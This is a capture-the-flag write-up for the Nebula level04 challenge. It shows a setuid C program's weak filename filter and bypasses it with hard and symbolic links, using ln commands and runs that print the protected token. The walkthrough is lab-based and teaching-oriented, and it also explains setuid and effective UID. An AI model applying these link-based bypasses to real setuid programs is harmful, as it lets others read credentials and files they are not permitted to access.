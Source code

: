 # For level04 in nebula

> This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)
>  
> To do this level, log in as the level04 account with the password level04. Files for this level can be found in /home/flag04.


The source code of the program is provided below.

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {	//denies access as long as argument includes the word "token"
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));	//reads rc number of chars (where rc <= 1024) from the opened file to the buffer
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);		//writes rc number of characters from the buffer to stdout
}
```

Remember, our goal is to read the file `/home/flag04/token`. Only a process running as `flag04` is allowed to read the file, as shown by its permissions `-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token`. To open the file in this C program, we cannot include the word "token". 

This means we must somehow access the contents of the file through a different name.

1. `mv` can be used to rename/move the file, but we do not have permissions to do so. Ditto for `cp`. So option 1 is out.

2. `ln` can be used to create a [hard link](https://www.thegeekdiary.com/unix-file-basics-inode-soft-vs-hard-link-device-files/) of the file `token`.

![hard_link_illustration](http://www.techexams.net/technotes/linuxplus/hardlinks.gif) 

The illustration shows why we create a hard link. 

`level04@nebula:/home/flag04$ ln token ~/cheating_tok` creates a hard link `/home/level04/cheating_tok` that points to the *same* file inode as `/home/flag04/token`, essentially meaning they point to the same data.

Since `strstr("cheating_tok","token")` returns null, the program outputs the file's contents.
```
level04@nebula:/home/flag04$ ./flag04 ~/cheating_tok
06508b5e-8909-4f38-b630-fdb148a848a2
```
There we have it. We got the token. (~‾▿‾)~

### Some extra stuffs

1. Like hardlinks, symbolic links work too!

![symbolic_link_illustration](https://cdn.thegeekdiary.com/wp-content/uploads/2013/09/soft-link.png)

```
level04@nebula:/home/flag04$ ln -s /home/flag04/token /home/level04/soft_cheating_tok
level04@nebula:/home/flag04$ ./flag04 ~/soft_cheating_tok 
06508b5e-8909-4f38-b630-fdb148a848a2
```

> The open function realizes you have specified the name of a link, reads the file name contained in the link, and opens that file name instead.
[source](https://www.gnu.org/software/libc/manual/html_node/Symbolic-Links.html) 

My guess is that `strstr` did not find the substring "token" within the string "\~/soft_cheating_tok", and so allowed the program to open and read the file. Once `open` received the string "\~/soft_cheating_tok", it *knew* it was a symbolic symbol and reads the file name contained in the link instead. 

This is a sweet way to bypass the program security. (　＾∇＾)

2. Remember that `/home/flag04/token` and `/home/level04/cheating_tok` have the *same* permissions - `-rw------- 1 flag04 flag04` - meaning that only processes running as `flag04` can access it. Now, even though the C program is owned by `flag04`, I executed it as `level04`, so technically, the C process should not be able to access `/home/level04/cheating_tok`. Yet it did. Why? (⊙.☉)7 

> Most of the time, the kernel checks only the effective user ID. For example, if a process tries to open a file, the kernel checks the effective user ID when deciding whether to let the process access the file. [source: Section 10.4 Real and Effective IDs](http://richard.esplins.org/static/downloads/linux_book.pdf)

Take a look at the permissions of the C program. The setuid bit is set `-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04`. Whoever runs this C program is temporarily given the permissions of user `flag04`. The effective UID (EUID) of the process is the owner of the process regardless of who ran the program. So, EUID of the process is `flag04`, and since EUID is used to evaluate whether a process should be allowed to access a file, the C program has permissions to access `/home/level04/cheating_tok`.

3. Simply of curiosity, I decided to run `strace ./file4 token` and `strace ./file4 ~/cheating_tok` to compare the different syscalls. The output of the latter shocked me. (⊙.☉)7 

```
level04@nebula:/home/flag04$ strace ./flag04 ~/cheating_tok
execve("./flag04", ["./flag04", "/home/level04/cheating_tok"], [/* 28 vars */]) = 0
brk(0)                                  = 0x9a52000

[...] more output
             = 0
open("/home/level04/cheating_tok", O_RDONLY) = -1 EACCES (Permission denied)
write(2, "flag04: ", 8flag04: )                 = 8
write(2, "Unable to open /home/level04/che"..., 41Unable to open /home/level04/cheating_tok) = 41
write(2, ": ", 2: )                       = 2
write(2, "Permission denied\n", 18Permission denied
)     = 18
exit_group(1)                           = ?
```
Running `strace ./file4 ~/cheating_tok` somehow got the permission denied error even though `./file ~/cheating_tok` worked perfectly. [Here's why](https://superuser.com/questions/247888/strange-strace-and-setuid-behaviour-permission-denied-under-strace-but-not-run).

END






